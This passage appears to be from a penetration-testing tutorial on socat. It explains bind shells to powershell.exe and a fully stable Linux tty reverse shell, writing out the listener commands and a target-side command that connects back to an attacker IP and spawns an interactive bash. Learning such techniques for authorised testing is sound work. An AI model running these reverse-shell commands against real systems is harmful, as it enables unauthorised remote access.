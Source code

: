 `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of
handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to
connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

Now let's take a look at one of the more powerful uses for Socat: a fully stable
Linux tty reverse shell.
This will only work when the target is Linux, but is significantly more stable.
As mentioned earlier, socat is an incredibly versatile tool; however,
the following technique is perhaps one of its most useful applications.
Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts.
As usual, we're connecting two points together.
In this case those points are a listening port, and a file.
Specifically, we are allocating a new tty, and setting the echo to be zero.
This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg`
trick with a netcat shell -- with the added bonus of being immediately
stable and allocating a full tty.

The first listener can be connected to with any payload;
however, this special listener must be activated with a very specific socat command.
This means that the target must have socat installed.
Most machines do not have socat installed by default,
however, it's possible to upload a **precompiled socat binary**,
which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our
own machine. The second part of the command creates an interactive bash session
with  `EXEC:"bash -li"`. We're also passing the arguments:
pty, stderr, sigint, setsid and sane:

- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell
(often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process,
allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine,
on the right we have a simulation of a compromised target,
running with a non-interactive shell.
Using the non-interactive netcat shell, we execute the special socat command,
and receive a fully interactive bash shell on the socat listener to the left:

